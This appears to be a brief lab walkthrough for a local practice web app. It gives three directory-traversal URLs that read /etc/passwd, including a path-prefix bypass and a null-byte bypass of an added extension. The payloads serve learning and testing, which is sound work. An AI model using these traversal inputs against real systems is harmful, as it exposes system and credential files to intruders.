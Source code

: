 # Directory Traversal

## 1

`http://localhost:31337/dirtrav/example1.php?file=../../../../../../../etc/passwd`

## 2

This example tries to make sure that the included path begins with `/var/www/files`. No problem.

`http://localhost:31337/dirtrav/example2.php?file=/var/www/files/../../../etc/passwd`

## 3

This example moves the extension decision into the code, but as with the file inclusion stuff, we can get around this with a null byte.

`http://localhost:31337/dirtrav/example3.php?file=../../../../../../etc/passwd%00`
